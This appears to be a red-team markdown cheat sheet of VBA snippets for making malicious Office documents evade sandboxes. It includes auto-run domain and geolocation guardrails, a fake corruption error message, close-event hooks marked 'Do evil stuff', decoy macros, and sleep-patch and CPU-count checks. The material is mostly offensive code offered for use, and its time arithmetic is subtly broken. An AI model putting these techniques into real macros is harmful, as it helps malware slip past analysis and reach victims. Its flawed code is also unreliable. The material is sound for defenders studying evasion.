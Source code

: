 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Sandbox evasion (Guardrails) for Office macros

## Current user's joined domain from expanded environment variable %USERDNSDOMAIN%
~~~
Private Sub Workbook_Open()
    dnsdomain = "evilcorp.local"
    Set wshShell = CreateObject("WScript.Shell")
    d = wshShell.ExpandEnvironmentStrings("%USERDNSDOMAIN%")
    If InStr(LCase(d), dnsdomain) > 0 Then
        setHomepage
        MsgBox "the document is corrupt and cannot be opened.", vbExclamation, "Error"
    End If
End Sub
~~~

## Execute macro on close
~~~
# EXCEL
Sub Auto_Close()
    ' Do evil stuff
End Sub

# WORD
Sub Document_Close()
    ' Do evil stuff
End Sub
~~~

## Do innocuous things
~~~
Sub CopyAndPaste3x3Area()
    Range("A1:C3").Select
    Selection.Copy
    Range("A4").Select
    ActiveSheet.Paste
End Sub

Sub InsertAlternateRows()
    Dim rng As Range
    Dim CountRow As Integer
    Dim i As Integer
    Set rng = Selection
    CountRow = rng.EntireRow.Count
    For i = 1 To CountRow
    ActiveCell.EntireRow.Insert
    ActiveCell.Offset(2, 0).Select
    Next i
End Sub
~~~

## Detect sandbox sleep patch
This code is detected by O365 as malicious
~~~
#If VBA7 Then
    Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As LongPtr) 'For 64 Bit Systems
#Else
    Public Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long) 'For 32 Bit Systems
#End If

Private Sub Workbook_Open()

    Dim CurrentSec As Integer
    Dim FutureSec As Integer
    Dim CurrentMin As Integer
    Dim FutureMin As Integer
    Dim CurrentHour As Integer
    Dim FutureHour As Integer
    Dim CurrentTime As Integer
    Dim FutureTime As Integer
    Dim Result As String
    Dim Time As Integer
    
    CurrentSec = Second(Now)
    CurrentMin = Minute(Now)
    CurrentHour = Hour(Now)
    
    CurrentTime = CurrentSec + (CurrentMin * 60) + (CurrentHour * 360)
    
    Time = 10000
    Sleep (Time)
    
    FutureSec = Second(Now)
    FutureMin = Minute(Now)
    FutureHour = Hour(Now)
    
    FutureTime = FutureSec + (FutureMin * 60) + (CurrentHour * 360)
    
    If (FutureTime - CurrentTime) >= 8 And (FutureTime - CurrentTime) <= 12 Then
        'Result = "Not patching."
        Debugging
    'Else
        'Result = "Patching."
    End If

    'MsgBox (Result)

End Sub
~~~

## Detect number of processors
~~~
Function NumberOfProcessors()
    sWQL = "Select numberOfCores From Win32_Processor"
    Set oWMISrvEx = GetObject("winmgmts:root/CIMV2")
    Set oWMIObjSet = oWMISrvEx.ExecQuery(sWQL)
    NumberOfProcessors = 0
    For Each oWMIObjEx In oWMIObjSet
    NumberOfProcessors = oWMIObjEx.numberOfCores
    Next

    End Function

    Sub getNumberOfProcessors()

    MsgBox "NumberOfCores " & NumberOfProcessors
End Sub
~~~

## Geolocation
~~~
Sub Picture2_Click()
MsgBox "Run bad Stuff"
End Sub

Public Function GeoTest() As String
 Set a = CreateObject("WinHttp.WinHttpRequest.5.1")
 a.Open "GET", "https://geoip.maxmind.com/geoip/v2.1/city/me", False
 a.SetRequestHeader "Referer", "https://www.maxmind.com/en/locate-my-ip-address"
 a.SetRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Trident/5.0)"
 a.Send
 If a.Status = 200 Then
    GeoTest = a.REsponseText
 End If

End Function
'Check number of running processes

Public Sub Geo()
    'MsgBox GeoTest
    'Exit if not run in charleston
    If InStr(GeoTest, "Charleston") = 0 Then Exit Sub 'or Error 105
    MsgBox "Got Here"
    
End Sub
~~~
